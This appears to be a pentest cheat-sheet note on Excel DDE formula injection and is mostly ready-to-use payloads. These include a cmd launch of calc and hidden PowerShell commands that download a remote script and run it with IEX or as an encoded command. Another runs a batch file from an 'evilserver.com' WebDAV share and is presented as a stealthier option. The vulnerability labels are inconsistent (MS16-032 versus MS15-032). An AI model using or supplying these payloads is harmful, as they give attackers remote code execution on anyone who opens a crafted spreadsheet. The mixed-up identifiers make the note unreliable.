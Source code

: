 # Exploiting MS16-032 via Excel DDE without macros
DDE = transfer data between applications, a form of Inter-Process Communication (IPC)
Execute cmd and the second part is the argument.
```=cmd|'/c calc.exe'!A1```
* Arguments have to be inside single quotes 
* Length restrictions on both the executable and the arguments
* BYPASS: instruct powershell to load a script

base64 encoded
```=cmd|'/c powershell.exe -w hidden $e=(New-Object System.Net.WebClient).DownloadString(\"https://trusted.domain/script.base64\");powershell -e $e'!A1```

plain .ps1
```=cmd|'/c powershell.exe -w hidden $e=(New-Object System.Net.WebClient).DownloadString(\"https://trusted.domain/script.ps1\");IEX $e'!A1```

bat file via webdav (stealthier)
```=cmd|'/c \\evilserver.com\sp.bat;IEX $e'!A1```

## MS16-032 via excel DDE functionality
 https://googleprojectzero.blogspot.co.uk/2016/03/exploiting-leaked-thread-handle.html


```meta
ttp: 
internal: false
requirements: 
results: 
description: MS15-032 (DDE) vuln
```